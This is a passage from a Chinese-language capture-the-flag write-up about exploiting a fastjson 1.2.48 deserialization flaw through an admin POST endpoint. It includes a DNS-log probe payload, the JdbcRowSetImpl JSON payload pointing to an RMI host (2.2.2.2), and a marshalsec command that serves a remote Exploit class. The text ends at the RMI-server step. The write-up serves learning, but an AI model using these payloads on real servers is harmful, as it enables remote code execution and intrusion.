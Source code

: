 1. commons-lang.jar
2. fastjson-1.2.48.jar
3. flex-messaging-core.jar
4. quartz.jar

然後後台的敘述也很明顯跟 fastjson 有關：

> Fastjson is a Java library that can be used to convert Java Objects into their JSON representation. It can also be used to convert a JSON string to an equivalent Java object. Fastjson can work with arbitrary Java objects including pre-existing objects that you do not have source-code of.

還有給一個 endpoint 可以 POST 資料：

```
POST /admin/mailbox.jsp

inpututext=abcde
```

fastjson 的這個版本有個反序列化漏洞，可以參考這篇：[红队武器库:fastjson小于1.2.68全漏洞RCE利用exp](https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/)。

接著隊友發現了 inpututext 可以放 JSON 字串，server 會用 fastjson 解析，像這樣：`inputtext={"a":123}`，不過我試了這個 payload 沒有看到結果：

``` json
{"abc":{"@type":"java.net.Inet4Address","val":"1486fo.dnslog.cn"}}
```

似乎是 dnslog 有一些問題，之後應該自己架一個或是去找其他類似服務，以備不時之需。不過隊友有用其它服務成功試出來，所以確定是可行的。

接著，就是要照上面那篇去設置好環境，然後想辦法去利用這個漏洞。因為跟 Java 不熟，所以我以前看到 Java 題目基本上都直接放棄，這次也是亂試一波不小心試出來，先感謝一下上面那篇文章的作者，把重現方法寫得滿清楚的，這邊簡單描述一下。

首先，你可以用文中給的 JSON payload 去觸發漏洞：

``` json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://2.2.2.2:9999/Exploit",
        "autoCommit":true
    }
}
```

這個漏洞會透過 RMI 去載入一個 class 檔案（就是上面的 `dataSourceName`），所以你必須先在你的 server 上面跑一個 RMI server，可以用 [marshalsec-0.0.3-SNAPSHOT-all.jar](https://github.com/mbechler/marshalsec) 這個工具：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://2.2.2.2:8888/#Exploit" 9999
```
